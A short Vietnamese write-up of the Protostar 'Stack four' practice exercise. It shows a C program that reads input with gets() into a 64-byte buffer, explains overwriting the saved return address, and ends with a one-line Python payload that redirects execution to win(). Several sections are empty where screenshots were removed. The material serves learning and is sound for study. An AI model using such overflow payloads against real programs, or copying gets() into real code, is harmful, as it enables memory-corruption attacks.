




# Stack four

source code của chương trình:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Ý tưởng của bài này là chúng ta phải làm tràn buffer, và ghi đè địa chỉ của hàm win vào bên trong con trỏ rip. Lúc này, chương trình sẽ in ra được `code flow successfully changed`

Để làm dược điều này, trước hết chúng ta phải nhắc lại cấu trúc của stack:


Caau hỏi to đùng ở đây là bên trong stack nó trông như này 


thì làm thế nào mà chương trình ghi đè lại cần tới 76 byte "A" 
`note tạm lại đã`


Truyền vào chương trình payload như sau:



thực thi chương trình với gdb và kiểm tra thông tin các thanh ghi ở cuối chương trình, ta có:



ở đây `eip` đang có giá trị `0x54545454` tương ứng với `TTTT`
do đó ta chỉ cần thay `TTTT` thành địa chỉ của win là được

chương trình sinh payload:
```py
print("A"*(64+12) +  "\xf4\x83\x04\x08")
```
và thực thi


Xong